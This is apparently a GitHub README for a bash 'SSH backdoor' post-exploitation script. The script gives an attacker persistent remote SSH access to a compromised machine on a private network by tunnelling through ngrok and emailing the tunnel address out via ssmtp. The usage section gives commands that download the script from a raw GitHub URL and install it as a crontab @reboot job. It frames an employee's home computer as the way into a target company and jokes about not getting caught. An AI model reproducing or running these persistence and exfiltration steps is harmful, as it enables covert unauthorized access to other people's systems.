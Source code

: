 ### SSH BACKDOOR

This is a bash script that gives the attacker `ssh access` to a compromised host in a private network. The script uses a set of linux tools to 
set up an SSH port and uses ngrok for tunneling and the address --that is always randomized is sent to the attackers server, in this 
case the address is sent to our email address.There is a lot of footprint left behind.Please do not use this script for illegal purposes :tada:
 
##### __The following are some of the conditions that should be met for this script to work.__

- [x] The attacker should have physical access to the compromised machine and they should be root or they should have sudo priviledges.
- [x] The script uses `./ngrok` therefore familiarity with [ngrok](https://ngrok.com) is encouraged.
- [x] The compromised machine or host should be connected to an internet connection.
- [x] set up `ssmtp` to send email to our email address -- using gmail in this case :)


##### __The following is a scenarion or use case were the script can be used__

> *Imagine you as the attacker have physical access to a personal computer (of an employee of a target company) that was weakly configured giving us root. This computer is in 
> the home network therefore that means that it does not face the public internet. You want to constanly get access to this machine, right? Running the script will 
> return an ssh-address that will enable you to connect remotely. We can make this fun by running the script as a cron-job on boot therefore getting 
> connections wherenever the computer is booted. Amazing or rather dangerous right :)*

**_NB_**: The script uses the `/var/tmp/` directory for its operations and logs errors that are sent back to the attacker.

- The `/etc/ssmtp/ssmtp/.conf` file should be configured since this is where ssmtp checks when sending your email. This is where the sender email 
address and the mail server is with its port is listed.

#### US4GE

1. To download the file you can use `wget` or `curl`. __First run the script to make sure everything is installed 😄__
```
wget https://raw.githubusercontent.com/mutur4/Hacking-Scripts/main/post-exploitation/ssh-backdoor/backdoor.sh
chmod +x backdoor.sh
sudo crontab -e 
```
2. Add the following line below the crontab file opened for editing 

`@reboot /usr/bin/sleep 90; /full/path/backdoor.sh`

3. Lets just sit and wait hope we dont get caught :shipit:
